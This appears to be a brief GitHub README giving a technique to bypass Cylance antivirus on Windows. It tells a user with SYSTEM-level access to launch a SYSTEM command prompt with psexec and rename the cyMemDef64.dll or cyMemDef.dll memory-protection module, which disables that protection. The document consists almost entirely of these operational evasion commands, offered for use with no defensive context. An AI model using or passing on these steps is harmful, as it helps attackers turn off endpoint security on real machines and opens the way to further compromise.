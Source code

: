 # Cylance-AV-Bypass
If you have access as NT Authoriy on system, you can bypass Cylance AV by renaming the cyMemDef64.dll for x64 and or cyMemDef.dll for 32bit.
1) Open up command prompt as NT System by running psexec.exe -i -s %SystemRoot%\system32\cmd.exe
2) Run move "C:\Program Files\Cylance\Desktop\cyMemDef64.dll" "C:\Program Files\Cylance\Desktop\cyMemDef64.dll.bak"
3) You can no bypass Cylance Memory protection. 
